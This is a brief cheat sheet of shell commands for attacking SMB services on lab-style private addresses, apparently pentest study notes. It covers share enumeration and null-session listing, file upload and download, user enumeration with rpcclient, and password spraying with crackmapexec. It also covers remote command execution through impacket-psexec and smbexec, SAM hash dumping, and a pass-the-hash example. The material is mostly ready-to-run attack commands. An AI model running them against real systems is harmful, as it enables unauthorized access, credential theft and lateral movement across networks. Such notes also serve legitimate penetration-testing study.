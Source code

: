 * Attacking SMB:

  ```sh
  # enumeration
  nmap 10.129.14.128 -sV -sC -p139,445

  # check for null session and list the shares
  smbclient -N -L //10.129.14.128

  # we can also use smbmap
  smbmap -H 10.129.14.128

  # check share 'notes'
  smbmap -H 10.129.14.128 -r notes

  # if we have read & write permissions, we can upload and download to share

  smbmap -H 10.129.14.128 --download "notes\note.txt"

  smbmap -H 10.129.14.128 --upload "notes\test.txt"
  ```

  ```sh
  # with a null session, we can use rpcclient for enumeration
  rpcclient -U'%' 10.10.110.17

  enumdomusers
  # we can use other functions as well

  # enum4linux can also be used to check
  ./enum4linux-ng.py 10.10.11.45 -A -C

  # password spraying
  crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
  ```

* RCE from SMB:

  ```sh
  impacket-psexec administrator:'Password123!'@10.10.110.17

  crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
  # -x to run CMD commands
  # and -X to run PS commands

  crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
  # enumerate logged-on users

  # if we have admin privileges, we can extract hashes
  crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

  # for PtH attacks
  crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
  ```
